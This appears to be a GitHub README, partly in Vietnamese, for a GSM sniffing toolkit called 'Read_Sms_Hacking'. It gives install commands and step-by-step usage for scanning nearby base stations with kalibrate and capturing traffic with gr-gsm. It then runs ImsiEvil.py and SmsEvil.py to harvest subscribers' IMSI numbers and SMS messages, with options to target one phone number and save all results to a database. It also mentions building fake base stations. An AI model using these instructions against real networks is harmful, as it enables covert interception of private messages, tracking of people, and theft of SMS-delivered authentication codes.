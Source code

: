 # Read_Sms_Hacking
Đọc tin nhắn của mạng đi động 2G-4G


  <p align="center">
    <img alt="GSMEVIL Title" src="https://www.paladion.net/hs-fs/hubfs/Paladion--2019/resources/blogs/How%20to%20Build%20an%20IMSI%20Catcher/3.jpg?width=527&name=3.jpg" style="max-width:100%;max-height:100%;" />
  </p>

**Hacker cũng có thể tạo ra những trạm BTS giả mạo chưa tới 600$, hoặc sử dụng các thiết bị IMSI catcher**
https://jurnal-singkat.blogspot.com/2016/04/building-portable-gsm-bts-using-nuand.html

# Công cụ phần mềm
```
kalibrate-rtl hoặc kalibrate-hackrf: công cụ quét dãy tần số GSM, xác định trạm BTS trong khu vực có tín hiệu mạnh
gr-gsm: công cụ thu và xử lý tín hiệu GSM
Wireshark: công cụ thu nhận dữ liệu mạng từ gr-gsm xử lý
gqrx: công cụ thu tín hiệu từ SDR
```

# Công cụ phần cứng: có thể dùng một trong các RTL-SDR, Hackrf, USRP, Blade-RF
```
https://www.paladion.net/blogs/how-to-build-an-imsi-catcher-to-intercept-gsm-traffic
Khi cắm thiết bị phần cứng vào cổng usb hoặc RS thì sẽ xuất hiện thêm card mạng mới, kiểm tra bằng lệnh lsusb sẽ thấy.
gqrx có nhiệm vụ thu tín hiệu từ thiết bị vào card mạng mới này
```

# Setup

```
sudo apt-get install python-pyshark
Gói pyshark để đọc các gói tin trong card mạng, vd bên dưới để đọc các payload http
https://medium.com/@vworri/extracting-the-payload-from-a-pcap-file-using-python-d938d7622d71
```

Install Gr GSM :  ( For receiving GSM transmissions )
```
sudo add-apt-repository -y ppa:ptrkrysik/gr-gsm
sudo apt-get update
sudo apt-get install gr-gsm
```

If gr-gsm failled to setup. Than follow those this : https://github.com/ptrkrysik/gr-gsm/wiki/Installation  

Install Kalibrate : ( For finding frequencies )
```
sudo apt install build-essential libtool automake autoconf librtlsdr-dev libfftw3-dev
git clone https://github.com/steve-m/kalibrate-rtl
cd kalibrate-rtl
./bootstrap && CXXFLAGS='-W -Wall -O3'
./configure
make
sudo make install
```
# Usage
You need gsm frequency on which you capture sms or imsi. By using kalibrate you will get all your near gsm base stations  frequencies.
```
kal -s GSM900
```
```
kal: Scanning for GSM-900 base stations.
GSM-900:
	chan: 4 (935.8MHz + 320Hz)	power: 1829406.95
	chan: 11 (937.2MHz + 308Hz)	power: 4540354.88
...
```
Now you need to capture gsm traffic using gr-gsm on frequency of your any gsm base station which you get from kalibrate.
```
grgsm_livemon -f <your_frequency>M
```
Example :
```
grgsm_livemon -f 935.8M
```
if you see output that's mean you getting gsm packets than continue other setps else change frequency.
```
2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b
2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b
2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b
2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b
...
```
Now every thing is ready you can start now capturing sms or imsi numbers using gsmevil.
You able to run imsi catcher and sms sniffer both at same time using 2 seprate terminal for capture imsi numbers and sms both at same time.
```
#### Capturing IMSI :
```
python ImsiEvil.py 
```
Options :
```
python ImsiEvil.py -h
Usage: ImsiEvil.py: [options]

Options:
  -h, --help            show this help message and exit
  -i IFACE, --iface=IFACE Interface (default : lo)
  -p PORT, --port=PORT  Port (default : 4729)
  -m IMSI, --imsi=IMSI  IMSI to track (default : None, Example: 123456789101112)
  -s SAVE, --save=SAVE  Save all imsi numbers to sqlite file. (default : None)
```
For save all imsi numbers with details in sqlite file.(It's will show you output on screen and also save in file)
```
python ImsiEvil.py -s example.db
```
For capture only specific imsi. (It's will show you only your given imsi result)
```
python ImsiEvil.py -m imsi_here (Example: python ImsiEvil.py -m 123456789101112)
```
#### Capturing SMS :

Run this command to quick start sms capturing.
```
python SmsEvil.py 
```
Options :
```
python SmsEvil.py -h
Usage: SmsEvil.py: [options]

Options:
  -h, --help            show this help message and exit
  -i IFACE, --iface=IFACE Interface (default : lo)
  -p PORT, --port=PORT  Port (default : 4729)
  -n NUMBER, --number=NUMBER Phone number (default : None)
  -s SAVE, --save=SAVE  Save all text messages to sqlite file. (default : None)
```
For save all sms in sqlite file.(It's will show you output on screen and also save in file)
```
python SmsEvil.py -s example.db
```
For capture only specific phone number sms. (It's will show you only your given phone number result)
```
python SmsEvil.py -n phone_number_here (Example: python SmsEvil.py -n 12345678910)
```

# Links 
Frequency : https://www.worldtimezone.com/gsm.html or https://en.wikipedia.org/wiki/GSM_frequency_bands
Sdr : https://en.wikipedia.org/wiki/Software-defined_radio
Sms : https://en.wikipedia.org/wiki/SMS#GSM
Imsi : https://fr.wikipedia.org/wiki/International_Mobile_Subscriber_Identity
Cell id : https://en.wikipedia.org/wiki/Cell_ID or https://unwiredlabs.com/
GSM : https://en.wikipedia.org/wiki/GSM
Frequency Calculator : https://www.cellmapper.net/arfcn
GR-GSM : https://github.com/ptrkrysik/gr-gsm
